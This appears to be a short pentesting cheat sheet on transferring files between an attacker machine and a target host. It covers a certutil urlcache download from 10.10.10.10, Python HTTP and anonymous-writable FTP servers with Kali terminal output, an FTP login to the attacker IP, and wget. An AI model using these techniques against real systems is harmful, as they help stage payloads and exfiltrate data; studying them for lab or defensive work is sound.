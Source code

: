 #certutil #pyftpdlib #FTP #Bitsadmin #SimpleHTTPServer #wget 
1. Powershell for Windows

```powershell
certutil.exe --urlcache -f http://10.10.10.10/file.txt file.txt
```

2. Open HTTP server to share files on directory

```shell
python3 -m http.server --bind [your_ip] [port]
```

- Browser
	- Navigate directly to file

3. FTP
	- from Linux
	`python -m pyftpdlib 21 <attacker machine>`
	`python -m pyftpdlib -p 21 --write`
```
┌──(root㉿kali)-[~/Downloads]
└─# python3 -m pyftpdlib -p 21 --write       
/usr/lib/python3/dist-packages/pyftpdlib/authorizers.py:108: RuntimeWarning: write permissions assigned to anonymous user.
  self._check_permissions(username, perm)
[I 2024-10-07 20:22:14] concurrency model: async
[I 2024-10-07 20:22:14] masquerade (NAT) address: None
[I 2024-10-07 20:22:14] passive ports: None
[I 2024-10-07 20:22:14] >>> starting FTP server on 0.0.0.0:21, pid=659525 <<<
```
- from windows
	`ftp <attacker ip>`
	- `anonymous:anonymous`

5. Linux

	`wget`